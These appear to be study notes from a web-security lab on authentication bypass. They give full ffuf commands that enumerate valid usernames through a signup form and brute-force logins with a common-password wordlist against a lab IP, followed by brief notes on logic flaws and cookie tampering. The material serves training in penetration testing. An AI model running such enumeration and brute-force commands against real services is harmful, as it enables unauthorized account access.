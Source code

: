 
# Authentication Bypass

## Username Enumeration

A helpful exercise to complete when trying to find authentication vulnerabilities is creating a list of valid usernames, which we'll use later in other tasks.

```
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.16.45/customers/signup -mr "username already exists"
```

<span style="color:rgb(255, 192, 0)">-w</span> argument selects the file's location on the computer that contains the list of usernames
<span style="color:rgb(255, 192, 0)">-X</span> argument specifies the request method, this will be a GET request by default, but it is a POST request in our example
<span style="color:rgb(255, 192, 0)">-d</span> argument specifies the data that we are going to send
<span style="color:rgb(255, 192, 0)">-H</span> argument is used for adding additional headers to the request.<span style="color:rgb(255, 192, 0)">
</span> 
<span style="color:rgb(255, 192, 0)">-u</span> argument specifies the URL we are making the request to
<span style="color:rgb(255, 192, 0)">-mr</span> argument is the text on the page we are looking for to validate we've found a valid username.

**Output will be saved to file named valid_usernames.txt** 

## Brute Force

```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.16.45/customers/login -fc 200
```

Because we're using multiple wordlists, we have to specify our own FUZZ keyword. In this instance, we've chosen W1 for our list of valid usernames and W2 for the list of passwords we will try. For a positive match, we're using the <span style="color:rgb(255, 192, 0)">-fc</span> argument to check for an HTTP status code other than 200.

## Logic Flaw

 A logic flaw is when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker. 

## Cookie Tampering

Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges.

### Encoding

 Encoding allows us to convert binary data into human-readable text that can be easily and safely transmitted over mediums that only support plain text ASCII characters.
